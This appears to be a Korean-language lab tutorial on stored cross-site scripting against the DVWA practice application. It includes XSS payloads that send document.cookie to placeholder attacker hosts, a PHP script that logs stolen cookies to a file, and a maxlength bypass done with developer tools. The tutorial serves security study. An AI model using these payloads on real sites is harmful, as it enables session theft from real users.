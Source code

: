 ## Stored 기반 Cross Script Scripting

XSS(Cross-site Scripting)는 웹 상에서 가장 기초적인 취약점 공격 방법 입니다.             
크로스 사이트 스크립팅(XSS)은 애플리케이션에서 브라우저로 전송하는 페이지에서 사용자가 입력하는 데이터를 검증하기 않거나, 출력 시 위험 데이터를 무효화 시키지 않을 때 발생하게 됩니다.     
공격자는 의도적으로 브라우저에서 실행될 수 있는 악성 스크립트를 웹 서버에 입력 또는 출력 될수 있게 공격을 할수 있습니다.     
XSS 취약점을 이용한 공격 방법은 크게 3가지로 분류됩니다.     
  
- 1. XSS(Stored) - 저장 XSS공격- 접속자가 많은 웹 사이트를 대상으로 공격자가 XSS 취약점이 있는 웹 서버에 공격용 스크립트를 입력시켜 놓으면, 방문자가 악성 스크립트가 삽입되어 있는 페이지를 읽는 순간 방문자의 브라우저를 공격하는 방식
- 2. XSS(Reflected) - 반사 XSS공격- 악성 스크립트가 포함된 URL을 사용자가 클릭하도록 유도하여 URL을 클릭하면 클라이언트를 공격하는 공격 방식
- 3. XSS(DOM) - DOM 기반 XSS 공격- DOM 환경에서 악성 URL을 통해 사용자의 브라우저를 공격하는 방식

![image](https://github.com/user-attachments/assets/3bac7614-3182-43d4-b34d-46b732fa0fa0)
  
DVWA 취약점 진단 항목중 하나인 Stored XSS 취약점 진단 화면 입니다.       
Stored XSS는 '저장 크로스 사이트 스크립팅' 취약점으로 공격자가 악성 스크립트를 웹 애플리케이션에 삽입하여 사용자가 해당 게시물을 열었을 경우 서버에서 악성 스크립트를 반환하도록 유도하는 방식 입니다.        
공격자는 이 공격을 통하여 사용자의 쿠키 정보를 탈취, 사용자의 권한을 획득, 사용자의 단말에 침투하여 악성코드 배포까지 이루어 질수 있는 공격 방식 입니다.공격시나리오를 간단히 살펴보도록 하겠습니다. (해당 시나리오는 인터넷에 그림으로도 있으니 참고 하시면 되실것 같습니다.)     

- 1. 공격자는 웹 게시판에 스크립트가 허용되는 부분에 악의적인 서버로 유도하는 스크립트를 삽입 <script src =http://공격 서버/악성파일></script>        
- 2. 공격이 성공되면 웹서버의 데이터베이스에 값이 저장됨3. 웹에서 페이지 요청시 데이터베이스는 악성 스크립트를 사용자에게 출력공격 구문 예시
- 3. document.write('<iframe src='http://악성서버/xsstest.php?'+document.cookie+'' width=0 height=0></iframe>');<img src="" onerror="alert('test')"><script>alert('XSS TEST')</script> 그럼 취약점이 있는지 살펴보도록 하겠습니다.

![image](https://github.com/user-attachments/assets/06b66b39-015d-424a-a567-f91a5913b193)
<script>alert('XSS TEST')</script> 입력후 [Sign Guestbook] 버튼을 눌러 줍니다.

![image](https://github.com/user-attachments/assets/70e801a9-9402-4c3f-b4a2-ef42d95e2073)
다음과 같이 alert 함수 안에 작성한 메시지가 발생하였다면, 취약점이 있다고 보셔야 합니다. 그럼 조금더 세부적으로 들어가보도록 하겠습니다.[쿠키 탈취 스크립트 코드] (xsstest.php)
![image](https://github.com/user-attachments/assets/ba5aaa61-25af-4bd8-b03f-01b9d0192871)
다음과 같이 스크립트 코드를 작성하신후 .php 파일로 저장하여 줍니다.
```php
<? $cookie=$_GET['data'];  //data 값을 가지고 온다.
$atime=date("y-m-d H:i:s"); //년 월 일 시 분 초
$log=fopen("data.txt","a");  //파일 생성 a는 띄어쓰기 옵션
fwrite($log,$atime." ".$cookie."\r\n"); //파일을 쓴다. \r\n은 개행
fclose($log); //파일 닫기//공격자의 웹서버 주소 팝업창 크기
echo "<img src=http://공격자 IP/vulnerabilities/xss.jpg width=220 height=150></img>"; ?>
```
여기서 xss.jpg 파일은 팝업창으로 띄울 이미지 이므로 어떠한 이미지 파일이여도 상관은 없습니다. 다만 꼭 경로를 확인해 주시기 바랍니다.     
![image](https://github.com/user-attachments/assets/8aa8ea60-f929-487d-8f1a-9f1dcbe85bfc)
저 같은 경우는 경로가 위에 보시는 것 처럼 지정이 되어 있고, .php 파일, jpg 파일, data.txt 파일을 경로에 넣어 줍니다.공격 코드
     
![image](https://github.com/user-attachments/assets/797244fc-7975-4b9e-994d-016576c058ba)    
```php
<script>window.open("http://공격자 IP/xsstest.php?data="+document.cookie,"small","width=150,height=220,scrollbars=no,menubar=no")</script>
```
여기까지 따라오셨다면 준비는 다 끝났습니다.

![image](https://github.com/user-attachments/assets/7cf5c82a-a173-43ef-a4d7-8b658c3cb12c)
이제 해당창 Message 부분에 공격코드를 삽입하여야 합니다.       
하지만 길이 제한 때문에 공격코드가 입력되지 않는것을 확인할수 있습니다.     
브라우저의 개발자 도구를 이용하여 길이제한을 늘려 보도록 하겠습니다.    

![image](https://github.com/user-attachments/assets/c48718f0-f6c7-4228-a66e-fe2841e75274)
다음과 같이 개발자도구를 이용하여 maxlength 부분을 수정하여 주신후 공격 코드를 삽입합니다.

![image](https://github.com/user-attachments/assets/73101421-d785-4e31-be5f-005cc3a36c6c)
수정 후 공격코드를 삽입한 화면 입니다.

![image](https://github.com/user-attachments/assets/4a132318-0a0c-4ac1-874b-59c5d9c2aef3)
공격이 성공하면 조금전에 넣었던 이미지 팝업이 뜨면서 공격이 성공되었음을 알려 줍니다.

![image](https://github.com/user-attachments/assets/2fcfd0c8-3028-4deb-a072-ce91e677c420)

data.txt 파일을 확인해 보시면 쿠키값을 탈취한것을 확인할수 있습니다.      
이렇게 쿠키값이 탈취가 되면, 쿠키재사용 공격에 이용되기도 합니다.        
절대 악의적인 목적으로 이용하시면 안됩니다. 악의적으로 이용시 법적인 처벌을 받으 실수 있으며, 꼭 공부의 목적으로 사용하시기 바랍니다.      





## More Information
https://owasp.org/www-community/attacks/xss
https://owasp.org/www-community/xss-filter-evasion-cheatsheet
https://en.wikipedia.org/wiki/Cross-site_scripting
http://www.cgisecurity.com/xss-faq.html
http://www.scriptalert1.com/
